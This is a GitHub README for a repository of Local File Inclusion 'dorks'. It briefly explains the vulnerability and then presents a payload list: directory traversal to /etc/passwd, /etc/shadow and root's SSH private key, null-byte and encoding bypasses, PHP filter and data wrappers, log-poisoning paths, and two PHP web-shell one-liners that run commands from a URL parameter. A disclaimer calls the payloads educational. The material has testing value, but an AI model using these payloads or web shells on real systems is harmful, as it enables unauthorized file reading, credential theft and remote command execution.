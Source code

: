 # Local File Inclusion (LFI) Dorks Repository

![Local File Inclusion](https://img.shields.io/badge/Local%20File%20Inclusion-blue)

Welcome to the Local File Inclusion (LFI) Dorks repository! This repository holds a collection of LFI dorks and an explanation of what LFI is, along with examples of LFI dorks and techniques.

## Table of Contents
- [What is Local File Inclusion (LFI)?](#what-is-local-file-inclusion-lfi)
- [Examples of Local File Inclusion (LFI) Dorks](#examples-of-local-file-inclusion-lfi-dorks)
- [Understanding LFI](#understanding-lfi)
- [Advanced LFI Concepts](#advanced-lfi-concepts)
- [Exploring the GDorks Main Repository](#exploring-the-gdorks-main-repository)
- [Local File Inclusion (LFI) Payloads](#local-file-inclusion-(LFI)-payloads)
- [How to Use This Repository](#how-to-use-this-repository)
- [Contributing](#contributing)


## What is Local File Inclusion (LFI)?

Local File Inclusion (LFI) is a vulnerability allowing an attacker to include files on a server through the web browser. Exploiting this vulnerability can lead to reading sensitive information, executing arbitrary code, or even obtaining full control over a system.

## Examples of Local File Inclusion (LFI) Dorks

Here are examples of Local File Inclusion (LFI) dorks that can be used to test for or identify websites vulnerable to LFI attacks:

1. **Basic LFI Dork:** Identifies websites potentially vulnerable to LFI.

   ```
   http://example.com/page.php?file=filename.php
   ```

2. **Traversing Directories:** Testing for LFI by trying to traverse directories.

   ```
   http://example.com/?page=../../../../../../etc/passwd
   ```

3. **Null Byte Injection:** Checking for LFI using null bytes.

   ```
   http://example.com/page.php?file=filename.php%00
   ```

## Understanding LFI

Understanding LFI vulnerabilities is crucial. Exploiting an LFI can allow an attacker to read sensitive files, execute arbitrary code, and potentially gain unauthorized access to the system.

## Advanced LFI Concepts

Advanced LFI involves bypassing filters, manipulating input parameters, and escalating access. Techniques include using wrapper protocols (such as data://, php://, and file://), directory traversal attacks, and exploiting different web server configurations.

## Local File Inclusion (LFI) Payloads

Here are various payloads useful for testing LFI vulnerabilities in web applications:

1. **Basic LFI Payload:**

   ```
   ../../../../../../etc/passwd
   ```

2. **URL Encoding Payload:**

   ```
   ..%2f..%2f..%2fetc%2fpasswd
   ```

3. **Null Byte Payload:**

   ```
   ../../../../../../etc/passwd%00
   ```

4. **Wrapper Protocol Payloads:**

   - `php://filter/convert.base64-encode/resource=index.php`
   - `data://text/plain;base64,SGVsbG8gV29ybGQ=`

5. **Directory Traversal Payloads:**

   - Windows: `../../../windows/win.ini`
   - Linux: `../../../etc/passwd`
   
6. **Shell Command Execution Payloads:**

   - `<?php echo shell_exec($_GET['cmd']); ?>`
   - `<?php system($_GET['cmd']); ?>`

7. **Server Log File Payloads:**

   - `/var/log/apache/access.log`
   - `/var/log/nginx/access.log`

8. **Windows File Payloads:**

   - `C:\boot.ini`
   - `C:\Windows\System32\drivers\etc\hosts`

9. **PHP Configuration Payload:**

   ```
   /proc/self/environ
   ```

10. **Web Server Configuration Payloads:**

    - Apache: `/etc/httpd/conf/httpd.conf`
    - Nginx: `/etc/nginx/nginx.conf`

11. **Sensitive File Payloads:**

    - `../../../root/.ssh/id_rsa`
    - `/etc/shadow`
   
These payloads are meant for educational and testing purposes only. Always ensure you have proper authorization and permissions before using them on systems.



## Exploring the GDorks Main Repository

The [GDorks repository](https://github.com/Ishanoshada/GDorks/) is a comprehensive resource that contains an extensive collection of LFI dorks, categorized folders, and detailed documentation covering various LFI attack vectors, methods, and tools.

## How to Use This Repository

This repository is organized into folders, each containing specific LFI dorks and related information. Users can explore these folders to discover LFI dorks of interest.

To contribute to this repository, follow the steps outlined in the [Contributing](#contributing) section.

## Contributing

Contributions to this repository are encouraged! If you have additional LFI dorks, examples, or documentation to share, follow these steps:

1. Fork the repository.
2. Create a new branch with a descriptive name.
3. Add your LFI dorks or other content.
4. Submit a pull request.

Your contributions will help make this repository more comprehensive and informative for the community.

Happy hunting for LFI vulnerabilities, and remember to act responsibly and ethically when testing security vulnerabilities.
